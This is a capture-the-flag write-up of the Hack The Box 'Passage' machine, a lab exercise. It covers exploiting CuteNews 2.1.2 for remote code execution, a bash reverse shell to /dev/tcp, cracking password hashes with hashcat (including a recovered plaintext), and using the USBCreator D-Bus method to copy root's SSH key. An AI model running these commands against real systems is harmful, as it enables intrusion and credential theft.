# <p style="color:RED">Information Gathering </p>

## <p style="color:Green">Nmap scan </p> 
`rustscan -a 10.10.10.206 -- -A -sC -sV`

```
Open 10.10.10.206:22
Open 10.10.10.206:80
```

```
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)

| ssh-hostkey: 
|   2048 17:eb:9e:23:ea:23:b6:b1:bc:c6:4f:db:98:d3:d4:a1 (RSA)
|   256 71:64:51:50:c3:7f:18:47:03:98:3e:5e:b8:10:19:fc (ECDSA)
|   256 fd:56:2a:f8:d0:60:a7:f1:a0:a1:47:a4:38:d6:a8:a1 (ED25519)

80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Passage News

```

<p> We have two ports open 
	Port 22 : OpenSSH 7.2p2
	Port 80 : Apache httpd 2.4.18
</p>

## <p style="color:Green">Exploring the WebServer </p> 

Let's first add Passage.htb to our hosts file!


We can see that Fail2Ban is Implemented on the server! So no need to waste our time trying bruteforcing dirs and files

 

What really catchs my eye is 

`Powered by CuteNews`

A simple search on google can reveal the default dir for CuteNews CMS which is /CuteNews/

Let's see what we get!

Nice! We got the CMS version 

`Powered by CuteNews 2.1.2`

Let's find a vulnerability related to this version!

# <p style="color:RED">Initial Foothold </p>


Let's see what searchsploit has for us!



Let's grab that juicy RCE python exploit

```
searchsploit -m php/webapps/48800.py
```


And run our script, We only need to provide <b>	http://passage.htb</b>

```
python3 48800.py
```


And we're on the box!

Let's get a proper shell on the box!

`/bin/bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'`



# <p style="color:RED">User Privesc</p>

## <p style="color:Green">Paul user </p> 


Going through the webserver config, I found an interesting directory

`/var/www/html/CuteNews/cdata/users`

Which seem to contain some juicy encoded informations



It looks like it's Base64 encoded!
Let's decode it

```
a:1:{s:4:"name";a:1:{s:5:"admin";a:8:{s:2:"id";s:10:"1592483047";s:4:"name";s:5:"admin";s:3:"acl";s:1:"1";s:5:"email";s:17:"nadav@passage.htb";s:4:"pass";s:64:"7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1";s:3:"lts";s:10:"1592487988";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
```

```
a:1:{s:4:"name";a:1:{s:10:"paul-coles";a:9:{s:2:"id";s:10:"1592483236";s:4:"name";s:10:"paul-coles";s:3:"acl";s:1:"2";s:5:"email";s:16:"paul@passage.htb";s:4:"nick";s:10:"Paul Coles";s:4:"pass";s:64:"e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd";s:3:"lts";s:10:"1592485556";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
```

Seems like we got nadav and paul's hash password

It's a sha2-256 hash, we're gonna use Hashcat with the rockyou wordlist to crack them!

```
echo "7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1" > hash 
echo "e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd" > hash
```

```
hashcat -m 1400 hash /opt/rockyou.txt
```

Seems like we were only able to crack paul's hash!



`paul:atlanta1`

And grab our user flag


## <p style="color:Green">Nadav user </p> 

We can notice that nadav can access paul's session



Let's see if paul's can access nadav's session

```
ssh nadav@passage
```



It worked!

# <p style="color:RED">Root Privesc</p>

Let's first run 
```
ps -aux
```
To see the current running processes!

What really catches me is that root is running, and that's odd
```
/usr/bin/python3 /usr/share/usb-creator/usb-creator-helper
```
A bit a searching/reading from google can lead us to something, which is the ability to get any file we want!


```
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /dev/shm/id_rsa true
```


And we rooted the box! 

## Thanks for reading hope you enjoyed it!


